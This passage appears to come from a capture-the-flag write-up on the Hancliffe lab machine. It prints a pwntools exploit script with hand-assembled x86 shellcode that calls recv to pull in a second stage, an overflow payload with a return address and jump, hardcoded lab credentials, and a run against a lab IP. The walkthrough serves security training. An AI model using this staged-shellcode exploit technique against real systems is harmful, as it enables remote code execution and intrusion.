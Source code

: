     recv_sc = (
            # get socket descriptor in esi
            b"\x54"                       # push esp
            b"\x58"                       # pop eax
            b"\x66\x05\x49\x01"           # add ax, 0x149
            b"\x66\x2d\x01\x01"           # sub ax, 0x101
            b"\x8b\x30"                   # mov esi, dword [eax]

            # make space on stack
            b"\x83\xec\x64"               # sub esp, 0x64

            # push recv args
            b"\x31\xdb"                   # xor ebx, ebx
            b"\x53"                       # push ebx, recv flags = 0
            b"\x66\x81\xc3\x04\x04"       # add bx, 0x404
            b"\x53"                       # push ebx, size = 0x404
            b"\x54"                       # push esp
            b"\x5b"                       # pop ebx
            b"\x83\xc3\x64"               # add ebx, 0x64
            b"\x53"                       # push ebx, buffer
            b"\x56"                       # push esi, sock descriptor

            # call recv
            b"\x3e\xa1\xac\x82\x90\x71"   # mov eax, [0x719082ac]
            b"\xff\xd0"                   # call eax 
            )

    payload = recv_sc + b"\x90"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"

    r.recvuntil(b"Username: ")
    r.sendline(b"alfiansyah")
    r.recvuntil(b"Password: ")
    r.sendline(b"K3r4j@@nM4j@pAh!T")
    r.recvuntil(b"FullName: ")
    r.sendline(b"0xdf")
    r.recvuntil(b"Input Your Code: ")
    r.sendline(payload)
    time.sleep(1)
    r.send(shellcode)



Now I'll fire it at Hancliffe:



    oxdf@hacky$ python3 sploit.py IP=10.10.11.115 PORT=9999
    [+] Opening connection to 10.10.11.115 on port 9999: Done
    [*] Closed connection to 10.10.11.115 port 9999
